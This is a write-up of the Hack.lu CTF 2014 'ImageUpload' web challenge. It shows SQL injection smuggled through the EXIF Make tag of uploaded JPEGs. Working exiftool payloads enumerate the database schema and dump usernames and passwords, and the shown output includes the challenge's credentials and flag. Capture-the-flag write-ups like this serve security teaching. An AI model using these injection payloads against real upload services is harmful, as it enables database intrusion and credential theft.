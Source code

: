 # Hack.lu CTF 2014: ImageUpload

**Category:** Web
**Points:** 200
**Author:** SLAZ
**Description:**

> In the Wild Wild Web, there are really bad guys. The sheriff doesn’t know them all. Therefore, he needs your help.
Upload pictures of criminals to this [site](https://wildwildweb.fluxfingers.net:1421/) and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!
>
> Pictures will be deleted on regular basis!
>
> **Hint:** Bruteforce is not necessary to solve the challenge!!! Please don’t do this.

## Write-up

As stated in the challenge description, the site at <https://wildwildweb.fluxfingers.net:1421/> allows image uploads. There is also a login form, but since we don’t have an account, let’s ignore that for now.

Some trial and error reveals that only JPEGs are accepted. Any image you upload gets some effects applied to it to make it look like a Wild Western ‘Wanted’ poster:

![](poster.jpg)

The text on the image “Dr. Evil” reflects the original image’s `Artist` EXIF tag. Below the image, the original `Width`, `Height`, `Author` (i.e. `Artist`), `Manufacturer` (i.e. `Make`), and `Model` EXIF tags are shown. Let’s inject some interesting values there:

```bash
$ exiftool -Make="foo', (SELECT VERSION())) -- -" image.jpg
```

Uploading this image lists the `Manufacturer` as `foo`, and uses the result of `SELECT VERSION()` as the next value in the query, i.e. as if it was the value for `Model`. Yep, the app is vulnerable to SQL injection through EXIF data.

Let’s find out which tables exist in the current database:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -" image.jpg
```

The result is `brute,pictures,users`. Hmm, what are the names of the columns in the `users` table?

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')) -- -" image.jpg
```

Apparently, `id,name,password`. Those `name` and `password` columns sound interesting – let’s see what values are in there:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(CONCAT(name, ':', password)) FROM users)) -- -" image.jpg
```

The result: `sheriff:AO7eikkOCucCFJOyyaaQ,deputy:testpw`.

Logging in using `sheriff` as the username and `AO7eikkOCucCFJOyyaaQ` as the password reveals the flag `flag{1_5h07_7h3_5h3r1ff}`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-web-200-imageupload/>
* <http://www.mrt-prodz.com/blog/view/2014/10/hacklu-ctf-2014---imageupload-200pts-writeup/>